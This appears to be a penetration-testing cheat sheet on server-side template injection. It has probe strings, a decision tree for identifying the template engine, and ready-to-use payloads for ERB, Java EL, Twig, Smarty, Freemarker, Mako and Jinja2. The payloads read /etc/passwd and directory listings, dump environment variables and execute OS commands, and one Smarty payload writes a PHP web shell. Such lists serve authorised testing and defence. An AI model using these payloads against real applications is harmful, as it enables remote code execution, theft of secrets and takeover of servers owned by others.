 ### Identify using strings
```
{{7*7}}
${7*7}
${{7*7}}
#{ 7 * 7 }
<%= 7 * 7 %>
```

### Decision tree (> means no error)
```
${7*7}
│
├─── {{7*7}}
│    │
│    ├─> {{7*'7'}}
│    │   │
│    │   ├─> jinja2
│    │   │
│    │   ├─> twig
│    │   │
│    │   └── unkown
│    │
│    └── not-vulnerable
│
└──> a{*comment*}b
     │
     ├── ${"z".join("ab")}
     │   │
     │   ├──> mako
     │   │
     │   └─── unkown
     │
     └─> smarty
```


### Ruby ERB engine - read files and directories
```
<%= Dir.entries('/') %>
```

### Ruby ERB engine - os command
```
<%= system('<command>') %>
<%= `<command> /` %>
<%= IO.popen('<command> /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('<command>') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('<command>') %><%= @c.readline()%>
```


### Java - retrieve environment variables
```
${T(java.lang.System).getenv()}
```

### Java - os command
```
${T(java.lang.Runtime).getRuntime().exec('<command>')}
```


### Expression language EL - os command
```
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<command>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<command>).start()
```


### Twig - file read 
```
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
```

### Twig - os command (use \x20 or $IFS for blank)
```
{{['<command>']|filter('system')}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("<command>")}}
```


### Smarty - os command
```
{php}echo `<command>`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['<command>']); ?>",self::clearConfig())}
```


### Freemarker - os command
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("<command>")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('<command>')}
${"freemarker.template.utility.Execute"?new()("<command>")}
```


### Mako - os command
```
<%
import os
x=os.popen('<command>').read()
%>
${x}
```


### Jinja2 - os command (number 396 will vary depending of the application)
```
{{''.__class__.mro()[1].__subclasses__()[396]('<command>',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('<command>').read()}}
```


### Find more
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection  

